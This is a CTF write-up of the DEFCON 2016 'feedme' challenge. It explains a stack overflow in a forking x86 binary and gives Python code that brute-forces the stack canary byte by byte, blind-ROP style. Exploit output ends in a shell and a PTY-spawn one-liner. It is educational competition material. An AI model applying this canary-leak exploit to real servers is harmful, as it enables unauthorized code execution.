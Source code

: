 +++
title = "DEFCON CTF 2016 - feedme"
author = "hugsy"
date = 2016-05-23T00:00:00Z
updated = 2016-05-23T00:00:00Z

[taxonomies]
categories = ["ctf"]
tags = ["pwn","defcon-2016","x86","brop"]
+++

### Info ###

The vulnerable file was given with the instructions:

    :::text
    Don't forget to feed me
    http://www.scs.stanford.edu/brop/

Here are some info given by `gef`:
```bash
gef➤  !file ./feedme
./feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
gef➤  checksec
[+] checksec for '/home/vagrant/feedme'
Canary:                                           No
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    No
Full RelRO:                                       No
```

`feedme` is statically linked x86 binary that forks and then expects "to be fed"
with some input. Pretty simple, right?


### Vulnerability ###

The vulnerability in this case is easy to spot:
```bash
gef➤  c
Continuing.
[New process 1349]
FEED ME!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ATE 41414141414141414141414141414141...
*** stack smashing detected ***: /home/vagrant/feedme terminated

Program received signal SIGABRT, Aborted.
[Switching to process 1349]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[registers]──
$eax     0x00000000 $ebx     0x00000545 $ecx     0x00000545 $edx     0x00000006 $esp     0xffffd388 $ebp     0xffffd5f8
$esi     0xffffd518 $edi     0xffffd434 $eip     0xf7ffdba0 $cs      0x00000023 $ss      0x0000002b $ds      0x0000002b
$es      0x0000002b $fs      0x00000000 $gs      0x00000063 $eflags  [ IF ]
Flags: [ carry  parity  adjust  zero  sign  trap  INTERRUPT  direction  overflow  resume  virtualx86  identification ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[stack]──
0xffffd388│+0x00: 0xffffd5f8 → 0xffffd678 → 0x41414141		← $sp
0xffffd38c│+0x04: 0x6
0xffffd390│+0x08: 0x545
0xffffd394│+0x0c: 0x0807bed7 → cmp eax,0xfffff000
0xffffd398│+0x10: "A"
0xffffd39c│+0x14: 0x0804e3e1 → mov edx,DWORD PTR gs:0x8
0xffffd3a0│+0x18: 0x6
0xffffd3a4│+0x1c: 0xffffd3b4 → " "
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[code:i386]──
0xf7ffdb9b	 <__kernel_vsyscall+11>  nop
0xf7ffdb9b	 <__kernel_vsyscall+11>  nop
0xf7ffdb9c	 <__kernel_vsyscall+12>  nop
0xf7ffdb9d	 <__kernel_vsyscall+13>  nop
0xf7ffdb9e	 <__kernel_vsyscall+14>  int    0x80
0xf7ffdba0	 <__kernel_vsyscall+16>  pop    ebp 		 ← $pc
[...]
```

The interesting function is at 0x08049036:


![do-feedme](https://i.imgur.com/WLAWsAW.png)

This function basically will:

   1. `0x8049053-0x8049058`: call the `xread_char()` function, which will read 1
      character from stdin and store it in the stack variable (called `len`);
   1. `0x804905F-0x8049069`: use this variable as the number of byte to read from stdin in the call to
      `xread_buffer()`, and store the result in the stack buffer allocated,
      called `buf`, whose size is 0x20 bytes;
   1. `0x804907E-0x8049084`: copy the `buf` content to a bigger array (0x400 bytes) located at the
      address 0x80EBF40.
   1. `0x804909D-0x80490A7`check if the `canary` variable has been tampered with, if so leave in
      error.

So we have a traditional stack buffer overflow, where we need to bypass the
canary token.


### Exploitation ###

Before continuing, I would recommend reading the paper & slides related to the
[blind-rop technique](http://www.scs.stanford.edu/brop/) we're going to be using.

Since the child process is being forked, we know that the parent and child are
identical in every way, including the memory mapping and the canary token. So
the idea for this exploitation is to brute-force one-by-one all the bytes from the
canary variable in stack, with the following binary logic: overwrite one byte of
the canary with a value, `X`. If we have a crash, it will mean that the canary is
corrupted, and therefore `X` is not valid. If it does not crash, then `X` is
valid, and we can reproduce this action with the following canary byte
(this is very analog to the exploitation of a colour-blind SQL
injection exploitation).

So we have this buffer:

```bash
| A A A A A A A A A A A A A A A| 1 2 3 4|
```

If we attempt to corrupt the first byte of the canary with a wrong value, our
process will be killed immediately and we will receive the message ("Child exit"):

```bash
| A A A A A A A A A A A A A A A| X 2 3 4|
```

But when the value for the byte is valid, the program will continue its
execution at 0x080490DF and display a message ("YUM, got...").
```bash
080490DF mov     [esp+4], eax
080490E3 mov     dword ptr [esp], offset aYumGotDBytes ; "YUM, got %d bytes!\n"
080490EA call    xprintf
```

So leaking one byte can be summed with the following Python code:

```python
def leak_canary_byte(s, prefix, off):
    for i in range(256):
        p = 'A'*32 + prefix + chr(i)
        xsend(s, p, len(p) )
        res = s.read_until("\n")
        res2 = s.read_until("\n")
        if res2 != "Child exit.\n":      # if we don't get the "Child exit." message, then our current value is correct
            return chr(i)
    return None
```

Once we have the value of the first byte, we resume the same operation with the
2nd and so on, until having the 4 bytes forming the canary.

```python
def leak_canary(s):
    can = ""
    for i in range(4):
        b = leak_canary_byte(s, can, i)
        if b is None:
            err("bail")
            exit(1)
        ok("Found canary[%d]=%.2x"%(i, ord(b)))
        can += b
    return can
```


We know control the execution flow without triggering the `canary_fail()`
function. All we need to do is build the shellcode using regular ROP. Since the
binary is statically compiled, we have more gadgets than we need.

So wrap this all up in a
[final exploit](https://gist.github.com/hugsy/0f196cfb8c62a4c56fdbc424cb7883bf)
and you have code execution:

```bash
/ $ ./feedme.py                                                                                                                                                                             [18:58]
[+] Connected to 172.28.128.4:4092
[+] Leaking canary using BROP
[+] Found canary[0]=00
[+] Found canary[1]=0c
[+] Found canary[2]=77
[+] Found canary[3]=9a
[+] Using canary '0x9a770c00'
[+] Building shellcode
[+] Sending shellcode
[+] Switching to interactive...
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"   '
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare)
You ran out of time, closing!
```

And find the flag `The flag is: It's too bad! we c0uldn't??! d0 the R0P CHAIN BLIND TOO`
